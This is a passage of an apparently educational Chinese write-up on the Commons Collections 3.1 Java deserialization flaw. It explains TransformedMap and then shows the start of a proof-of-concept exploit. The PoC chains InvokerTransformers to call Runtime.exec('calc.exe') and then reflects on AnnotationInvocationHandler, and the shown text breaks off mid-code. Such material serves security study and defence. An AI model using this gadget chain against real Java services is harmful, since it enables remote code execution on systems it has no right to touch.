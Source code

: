 commons-collections-3.1
=======================

Java commons-collections是JDK 1.2中的一个主要新增部分。它添加了许多强大的数据结构，可以加速大多数重要Java应用程序的开发。从那时起，它已经成为Java中公认的集合处理标准。

Commons Collections实现了一个TransformedMap类，该类是对Java标准数据结构Map接口的一个扩展

该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入

选择版本为3.1，[下载地址](https://archive.apache.org/dist/commons/collections/),

```xml
        <dependencies>
            <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
            <dependency>
                <groupId>commons-collections</groupId>
                <artifactId>commons-collections</artifactId>
                <version>3.1</version>
            </dependency>
        </dependencies>

```

poc执行过程
=======

```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {
        //1.客户端构建攻击代码
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChain
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //反射机制调用AnnotationInvocationHandler类的构造函数
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```